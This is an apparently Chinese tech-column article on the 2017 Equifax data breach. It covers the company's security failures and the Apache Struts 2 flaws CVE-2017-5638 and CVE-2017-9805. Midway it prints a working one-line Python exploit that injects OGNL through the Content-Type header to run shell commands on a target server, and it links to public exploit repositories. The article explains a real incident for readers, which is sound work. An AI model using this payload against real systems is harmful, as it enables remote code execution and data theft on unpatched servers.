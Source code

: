 相信你一定有所耳闻，9月份美国知名征信公司Equifax出现了大规模数据泄露事件，致使1.43亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊Equifax信息泄露始末，并对造成本次事件的原因进行简单的分析。
# Equifax信息泄露始末
Equifax日前确认，黑客利用了其系统中未修复的Apache Struts漏洞（CVE-2017-5638，2017年3月6日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。
作为美国三大信用报告公司中历史最悠久的一家，Equifax的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。
此外，Equifax还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于Equifax掌握了多个国家公民的信用档案，包括公民的学前、学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。
受这次信息泄露影响的美国消费者有1.43亿左右，另估计约有4400万的英国客户和大量加拿大客户受到影响。事件导致Equifax市值瞬间蒸发掉逾30亿美元。
根据《华尔街日报》（The Wall Street Journal）的观察，自Equifax在9月8日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。
事件发生之初，Equifax在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了Apache Struts的CVE-2017-5638漏洞。
<!-- [[[read_end]]] -->
戏剧性的是，该漏洞于今年3月份就已被披露，其危险系数定为最高分10分，Apache随后发布的Struts 2.3.32和2.5.10.1版本特针对此漏洞进行了修复。而Equifax在漏洞公布后的两个月内都没有升级Struts版本，导致5月份黑客利用这个漏洞进行攻击，泄露其敏感数据。
事实上，除了Apache的漏洞，黑客还使用了一些其他手段绕过WAF（Web应用程序防火墙）。有些管理面板居然位于Shodan搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax的一个管理面板使用的用户名和密码都是“admin”。
由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但Equifax的安全意识之弱可见一斑。
据悉，Equifax某阿根廷员工门户也泄露了14000条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了Equifax系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将Equifax推向了风口浪尖。
#Apache Struts漏洞相关
Apache Struts是世界上最流行的Java Web服务器框架之一，它最初是Jakarta项目中的一个子项目，并在2004年3月成为Apache基金会的顶级项目。
Struts通过采用Java Servlet/JSP技术，实现了基于Java EE Web应用的MVC设计模式的应用框架，也是当时第一个采用MVC模式的Web项目开发框架。随着技术的发展和认知的提升，Struts的设计者意识到Struts的一些缺陷，于是有了重新设计的想法。
2006年，另外一个MVC框架WebWork的设计者与Struts团队一起开发了新一代的Struts框架，它整合了WebWork与Struts的优点，同时命名为“Struts 2”，原来的Struts框架改名为Struts 1。
因为两个框架都有强大的用户基础，所以Struts 2一发布就迅速流行开来。在2013年4月，Apache Struts项目团队发布正式通知，宣告Struts 1.x开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此Apache Struts 1框架正式退出历史舞台。
同期，Struts社区表示他们将专注于推动Struts 2框架的发展。从这几年的版本发布情况来看，Struts 2的迭代速度确实不慢，仅仅在2017年就发布了9个版本，平均一个月一个。
但从安全角度来看，Struts 2可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年Struts 2的更新和迭代基本也是围绕漏洞和Bug进行修复。仅从官方披露的安全公告中就可以看到，这些年就有53个漏洞预警，包括大家熟知的远程代码执行高危漏洞。
根据网络上一份未被确认的数据显示，中国的Struts应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的Struts的数量几乎是其它国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。
所以在今年7月，国家信息安全漏洞共享平台还发布过关于做好Apache Struts 2高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。
而这次Equifax中招的漏洞编号是CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个RCE的远程代码执行漏洞，最初是被安恒信息的Nike Zheng发现的，并于3月7日上报。
<img src="https://static001.geekbang.org/resource/image/00/cc/009ecfbac5741ea7ffd7fa3079a8c8cc.png" alt="" />
从介绍中可以看出，此次漏洞的原因是Apache Struts 2的Jakarta Multipart parser插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改HTTP请求头中的Content-Type值来触发漏洞，最后远程执行代码。
说白了，就是在Content-Type注入OGNL语言，进而执行命令。代码如下（一行Python命令就可以执行服务器上的shell命令）：
`<code>import requests
requests.get(&quot;https://target&quot;, headers={&quot;Connection&quot;: &quot;close&quot;, &quot;Accept&quot;: &quot;*/*&quot;, &quot;User-Agent&quot;: &quot;Mozilla/5.0&quot;, &quot;Content-Type&quot;: &quot;%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}&quot;})
</code>`
在GitHub上有相关的代码，链接为：<a href="https://github.com/mazen160/struts-pwn">https://github.com/mazen160/struts-pwn</a> 或 <a href="https://github.com/xsscx/cve-2017-5638">https://github.com/xsscx/cve-2017-5638</a>
注入点是在JakartaMultiPartRequest.java的buildErrorMessage函数中，这个函数里的localizedTextUtil.findText会执行OGNL表达式，从而导致命令执行（注：可以参看Struts 两个版本的补丁“2.5.10.1版补丁”“2.3.32版补丁”），使客户受到影响。
因为默认情况下Jakarta是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来Equifax的同学并没有注意到，或者也没有认识到它的严重性。
另外，在9月5日和7日，Struts官方又接连发布了几个严重级别的安全漏洞公告，分别是CVE-2017-9804、CVE-2017-9805、CVE-2017-9793和CVE-2017-12611。
这里面最容易被利用的当属CVE-2017-9805，它是由国外安全研究组织lgtm.com的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是Struts 2 REST插件使用带有XStream程序的XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化XML payloads时就可能导致远程代码执行。
<img src="https://static001.geekbang.org/resource/image/f8/02/f8a10b42faf789018e0a5dfadbbd0c02.png" alt="" />
不过在Apache软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是Struts的漏洞导致的。其次，如果确实是源于Struts的漏洞，那么原因“或是Equifax服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。
根据推测，该声明提出黑客所使用的软件漏洞可能就是CVE-2017-9805漏洞，该漏洞虽然是在9月4日才由官方正式公布，但早在7月时就有人公布在网络上了，并且这个漏洞的存在已有9年。
相信通过今天的分享，你一定对Equifax的数据泄露始末及造成原因有了清楚的了解。欢迎您把你的收获和想法，分享给我。下篇文章中，我们将回顾一下互联网时代的!其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。
<p></p>
